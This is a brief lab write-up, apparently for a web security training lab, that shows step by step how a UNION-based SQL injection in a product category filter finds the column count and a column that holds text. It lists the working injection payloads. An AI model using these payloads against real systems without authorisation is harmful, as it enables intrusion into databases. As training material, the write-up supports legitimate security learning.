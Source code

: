 # lab 4 : SQL injection UNION attack, finding a column containing text

# SQL injection vulnerability in the product category filter
SELECT * FROM products WHERE category = 'Gifts'

# End goal : finding a column containing text

 s0  as we did in the lab 3rd the first goal is to find the no uf columns in union based attack.
 so use null ,null,null and + to hide space in burp.

1. '+UNION+SELECT+NULL,NULL,NULL-- (on this query response is 200ok so there are three no of columns)

2. no we have to find in which column the string is allowed :

'+UNION+SELECT+'a',NULL,NULL--
'+UNION+SELECT+NULL,'a',NULL--
'+UNION+SELECT+NULL,NULL,'a'--
 on 2nd query we'll got the 200ok so  this is final string .

 and insted of 'a' we have to put the given keyword which is 'GpjmZj' 

 and we'll finaly able to (finding a column containing text)

 hence lab solved!!!


